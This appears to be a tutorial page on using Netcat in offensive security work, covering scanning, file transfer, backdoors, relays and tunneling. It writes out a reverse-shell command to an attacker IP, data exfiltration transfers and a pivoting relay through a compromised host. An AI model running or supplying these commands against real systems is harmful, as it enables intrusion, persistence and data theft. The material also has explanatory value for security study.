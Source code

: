 ```yaml
---
title: 'Netcat: The Swiss Army Knife for Network Operations'
description: Explore Netcat's functionalities from scanning to backdoor establishment,
  and learn how to leverage it for effective network operations.
keywords:
- Netcat
- network scanning
- file transfer
- backdoor establishment
- networking tools
- network operations
- TCP
- UDP
- cybersecurity
---
```


### Overview and Installation

Netcat, often referred to as the "Swiss Army knife" of networking, is a versatile tool used in offensive cybersecurity operations for reading and writing network connections. It supports both TCP and UDP protocols and is used for a range of tasks including network debugging, port scanning, and as a covert communication channel.

To install Netcat, users can leverage package managers available on different operating systems. On Linux, Netcat can be installed using the package manager with commands like `sudo apt-get install netcat` for Debian-based systems or `sudo yum install nc` for Red Hat-based systems. On Windows, the tool can be obtained through Cygwin or from pre-compiled binaries found online. Understanding Netcat's syntax involves knowing its options like setting listening mode (`-l`), specifying ports (`-p`), and determining the protocol (`-u` for UDP).

### Network Scanning

Netcat can be employed for basic port scanning through its ability to connect to multiple ports rapidly. While not as sophisticated as Nmap or Masscan, Netcat can discern open ports via scripting mechanisms. For example, executing a command like `nc -zv [target IP] [port-range]` allows users to validate which ports are responsive. While conducting scans, it is critical to note that Netcat lacks features for reporting service versions; thus, it is often used for supplementary scanning rather than primary reconnaissance.

### File Transfer

Netcat facilitates straightforward file transfers between hosts, crucial during offensive operations for exfiltrating data or deploying payloads. The command `nc -l -p [port] > [filename]` can set up a receiver, while `nc [destination IP] [port] < [filename]` sends the file. Combining these parameters with tools like `tar` can allow transferring directories securely. Automating transfers involves scripting these commands to execute within broader operational contexts.

### Backdoor Establishment

One of Netcat's key roles in offensive operations is establishing backdoors on compromised systems. Backdoors enable persistent access for attackers by opening a command-line interface to remotely execute commands. Commands such as `nc -e /bin/bash [attacker IP] [port]` launch a reverse shell, while a listener set up with `nc -l -p [port]` on the attacker's side receives the connection. Evading detection requires using obfuscation and dealing with network security measures like intrusion detection systems.

### Relays and Proxies

Netcat can act as a bridge between disparate network segments, functioning as a rudimentary proxy. This capability is ideal for pivoting operations, where an attacker moves laterally through a network. Setting up a basic relay involves chaining Netcat instances and directing traffic through a compromised host using commands like `mkfifo backpipe; nc -l -p [port] < backpipe | nc [next hop IP] [destination port] > backpipe`. Creating proxy chains allows attackers to obfuscate the source of the attack and bypass routing restrictions.

### Advanced Scripting and Automation

The integration of Netcat with scripting languages (e.g., bash) streamlines complex tasks, making attack processes more efficient. Automating the setup of multiple listeners or creating dynamic payloads involves writing scripts that leverage Netcat's capabilities. For example, a bash script can loop through several IPs or ports, automating the scan or connection process, saving time and effort during larger campaigns.

### Tunneling and Port Redirection

Netcat can be used alongside encryption tools to create secure tunnels, a technique vital for concealing communication channels. By employing OpenSSL, for instance, an encrypted tunnel is established via `openssl s_server -quiet -key mykey.pem -cert mycert.pem -accept [local port] | nc -l -p [port]`. Port redirection supports redirecting traffic through intermediary hosts, allowing attackers to circumvent firewall restrictions.

### Troubleshooting and Mitigation Techniques

Employing Netcat correctly necessitates familiarity with its common pitfalls such as network latency impacts or port conflicts. The absence of error messages requires precise commands and syntax. Defensive strategies against Netcat include using network monitoring tools to detect its traffic signature and deploying firewall rules to block unauthorized connections.

### Compatibility and Extensibility

Netcat's functionality can be broadened through its integration with tools such as Nmap to run scripts or by developing custom patches that introduce new features. The portability of its source code facilitates modification to suit specific operation demands, making it a flexible tool throughout diverse offensive cybersecurity environments.